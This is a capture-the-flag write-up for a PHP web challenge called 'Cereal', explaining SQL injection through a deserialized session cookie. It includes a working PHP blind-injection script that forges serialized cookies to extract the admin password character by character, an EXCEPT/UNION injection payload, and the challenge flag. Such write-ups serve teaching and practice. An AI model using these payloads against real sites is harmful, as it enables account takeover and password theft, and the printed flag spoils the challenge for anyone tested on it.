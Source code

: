 # Cereal

Author: `FlamePyromancer`

Just made a new website. It's a work in progress, please don't judge...

## Solution

This challenge is vulnerable to SQL injection via the `refresh` function which is run when the session cookie is deserialized. The vulnerable parameter inside of the session is `id`. Using `profile.php` allows for leaking the admin's account information by setting the `id` to `0';--`. However, this does not give us the flag. It is presumed that the flag is probably in the password column, so I wrote a script to perform a blind injection to extract the flag.

```php
<?php
class User {
  public $username = 'guest';
  public $id = -1;
  protected $password = '5f4dcc3b5aa765d61d8327deb882cf99';
  protected $profile;
}

function curl($cookie) {
  $url = 'localhost:8000/profile.php';
  $headers = array('Cookie: auth=' . $cookie,);
  $curl = curl_init($url);
  curl_setopt($curl, CURLOPT_URL, $url);
  curl_setopt($curl, CURLOPT_RETURNTRANSFER, true);
  curl_setopt($curl, CURLOPT_HTTPHEADER, $headers);
  $resp = curl_exec($curl);
  curl_close($curl);
  return str_contains($resp, 'admin@admin.com');
}

function get_char($location) {
  $alphabet = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_-!@#$%^&*(){}';
  $test = new User();

  foreach (str_split($alphabet) as $char) {
    $sqli = '1\' AND (SELECT hex(substr(password,' . $location . ',1)) FROM users WHERE username=\'admin\')=hex(\'' . $char . '\');--';
    $test->id = $sqli;

    if(curl(base64_encode(serialize($test))) === True) {
      return $char;
    }
  }
  print "search failed on position " . $location . "\xA";
  die();
}

$i = 1;
$flag = ''; 
print "FLAG: " . $flag . "\r";
while(($char=get_char($i)) != '}') {
  $flag = $flag . $char;
  print "FLAG: " . $flag . "\r";
  $i++;
}
$flag = $flag . $char;
print "FLAG: " . $flag . "\n";
?>
```

## Alternative Solution

We can see that in `config.php`, the `refresh` function, which is called when the user cookie is deserialized, fills the `$profile` variable which appears to be filled an array, the result of a SQL query for four different parameters in the user database. Since the SQL query is injectable through the `id` parameter, we can inject this SQL query in a way which will result in the `$profile` variable printing the results of the `admin` user by setting `id` to 0, and printing the `admin` user password by using the SQL injection to first exclude the previous database search using `except` keyword, and then `union` keyword to create our own query with the `admin` password. 

The query looks like this: 

```sql
0' except select username,email,favorite_cereal,creation_date from users where `id` = '0' union select username,email,password,creation_date from users where `id`='0'-- -
```

Once the `id` parameter is injected, the profile page at `profile.php` will print the password, which is the challenge flag, instead of the favorite cereal. 

Flag: `gigem{c3r3aL_t0o_sWe3t_t0d2y}`
